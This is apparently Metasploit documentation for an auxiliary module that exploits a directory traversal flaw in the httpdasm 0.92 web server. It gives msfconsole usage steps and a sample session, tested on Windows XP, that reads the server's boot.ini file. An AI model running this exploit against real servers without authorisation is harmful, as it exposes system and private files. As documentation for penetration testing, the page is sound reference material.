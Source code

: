 ## Description

  This module exploits a directory traversal vulnerability to read files from a server running httpdasm v0.92.

## Vulnerable Application

  httpdasm 0.92

## Verification Steps

  1. Start `msfconsole`
  2. `use [auxiliary/scanner/http/httpdasm_directory_traversal]`
  3. `set RHOSTS [IP]`
  4. `run`

## Scenarios

### Tested on Windows XP x86

  ```
  msf5 > use auxiliary/scanner/http/httpdasm_directory_traversal
  msf5 auxiliary(scanner/http/httpdasm_directory_traversal) > set rhosts 192.168.37.128
  rhosts => 192.168.37.128
  msf5 auxiliary(scanner/http/httpdasm_directory_traversal) > run

  [boot loader]
  timeout=30
  default=multi(0)disk(0)rdisk(0)partition(1)\WINDOWS
  [operating systems]
  multi(0)disk(0)rdisk(0)partition(1)\WINDOWS="Microsoft Windows XP Professional" /noexecute=optin /fastdetect

  [*] Auxiliary module execution completed
  msf5 auxiliary(scanner/http/httpdasm_directory_traversal) >
  ```
